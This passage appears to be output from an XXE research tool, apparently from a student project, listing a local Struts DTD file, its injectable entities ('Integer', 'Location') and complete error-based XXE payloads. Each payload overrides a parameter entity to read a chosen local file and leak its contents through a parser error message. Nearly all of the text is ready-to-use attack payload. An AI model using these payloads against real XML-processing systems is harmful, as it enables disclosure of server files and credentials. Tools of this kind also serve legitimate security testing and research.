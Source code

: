 ```
    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_1.dtd`

**Injectable entity:** `Integer`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_1.dtd">

    <!ENTITY % Integer '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_1.dtd`

**Injectable entity:** `Location`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_1.dtd">

    <!ENTITY % Location 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```
